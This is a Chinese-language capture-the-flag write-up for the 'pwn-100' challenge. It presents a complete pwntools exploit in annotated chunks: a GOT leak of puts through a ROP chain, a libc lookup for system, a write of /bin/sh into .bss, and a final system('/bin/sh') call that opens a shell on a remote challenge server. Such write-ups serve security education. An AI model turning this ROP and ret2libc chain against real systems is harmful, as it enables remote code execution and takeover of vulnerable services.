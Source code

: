 # pwn-100
```python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
```
这些代码是导入所需的库和设置日志级别为调试模式。
```python
p= remote("61.147.171.105",53280)
#p = process('./pwn-100')
```
创建一个到远程服务器IP地址为"61.147.171.105"、端口号为53280的连接。注释掉的那一行是创建本地进程的方式运行程序"./pwn-100"。
```python
elf = ELF('./pwn-100')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
read_got = elf.got['read']
read_plt = elf.plt['read']
```
加载二进制文件'pwn-100'，并获取puts、read函数在GOT表和PLT表中的地址。
```python
pop_rdi = 0x0000000000400763
pop6 = 0x040075A
mov3 = 0x0400740

main = 0x0400550
```
设置一些关键函数的地址，如pop_rdi、pop6、mov3和main。
```python
payload1 = b'a'*0x48 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
payload1 = payload1.ljust(200, b'b')
p.send(payload1)
p.recvuntil(b'bye~\x0a')
puts_addr = u64(p.recvuntil('\x0a')[:-1].ljust(8, b'\x00'))
print (hex(puts_addr))
```
构造第一个payload，通过泄漏puts函数的GOT地址来获取libc基地址。然后发送payload到远程服务器，接收返回的结果并解析得到puts函数的真实地址。
```python
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
```
使用LibcSearcher库根据泄漏的puts函数地址计算出libc基地址，以及system函数的地址。
```python
payload2 = b'a'*0x48 + p64(pop6) + p64(0) + p64(1) + p64(read_got) + p64(8) + p64(0x601040) + p64(0)
payload2 += p64(mov3) + b'a'*56 + p64(main)
payload2 = payload2.ljust(200, b'b')
p.send(payload2)
p.recvuntil(b'bye~\x0a')
p.send('/bin/sh\0')
```
构造第二个payload，用于将字符串/bin/sh写入到.bss段中。通过向read函数传递参数，将输入的内容存储到0x601040处（.bss段），长度为8，然后通过mov指令将其复制到合适位置。最后发送payload并发送/bin/sh字符串。
```python
payload3 = b'a'*0x48 + p64(0x04006FF) + p64(pop_rdi) + p64(0x601040) + p64(system_addr) + p64(0xdeadbeef)
payload3 = payload3.ljust(200, b'b')
p.send(payload3)
p.interactive()
```
构造第三个payload，通过调用system函数来执行/bin/sh。发送payload并进入交互模式。

希望这能够帮助您理解代码的功能和执行流程。